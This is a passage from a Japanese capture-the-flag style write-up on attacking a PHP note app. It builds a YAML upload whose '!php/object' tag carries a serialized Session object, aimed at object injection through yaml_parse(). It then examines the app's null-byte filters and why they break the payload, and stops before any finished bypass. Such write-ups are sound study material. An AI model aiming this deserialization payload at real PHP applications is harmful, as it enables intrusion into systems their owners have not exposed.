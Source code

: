```
echo "title: !php/object " . serialize(new Session('session-id-dayo', 'yamato')) . "\nbody: body\n";
$ php payload.php > payload.yaml
```

できた `YAML` ファイルを Fiddler などで通信をキャプチャしながらアップロードすると、生成されたノートへの遷移を行っているページで `Notice: yaml_parse(): Failed to unserialize class in …` とエラーを吐いています。どうやら `YAML` のパースに失敗した様子です。

`index.php` の `YAML` ファイルをパースしている部分をもう一度確認します。

```php
$yaml = new String(file_get_contents($file));
$parsed = yaml_parse($yaml->optimize()->yaml()->get());
```

`YAML` ファイルの内容は `String` という謎のクラスに渡され、`String::optimize()` と `String::yaml()` を通したあとに `yaml_parse()` でパースされています。

`String` クラスについて詳しく見てみます。`classes/String.php` を確認します。

```php
<?php
class String
{
  // …
  public $str = '';
  // …
  public function optimize()
  {
    $from = mb_detect_encoding($this->str, 'ASCII,JIS,UTF-8,eucjp-win,sjis-win', true);

    if ($from === false) {
      e('Contain invalid chars');
      die();
    }

    $this->str = strtr($this->str, array("\x00" => '', "\r\n" => "\n", "\r" => "\n"));
    $this->str = mb_convert_encoding($this->str, $this->charset, $from);
    return $this;
  }
  public function yaml()
  {
    // anti null-byte in yaml
    $this->str = preg_replace('/\\\\+x?0+/', '', $this->str);
    return $this;
  }
  // …
}
```

`optimize()` メソッドでは null が削除され、`\r\n` と `\r` が `\n` に置換されています。`yaml()` メソッドでは `\x00` や `\0` のようなエスケープされた null が削除されています。

攻撃に使った `payload.yaml` を確認すると、`Session` の `_param` プロパティ辺りに null が入ってしまっています。  
private や protected なプロパティをシリアライズ化すると、プロパティ名に null が入ってしまうためです。
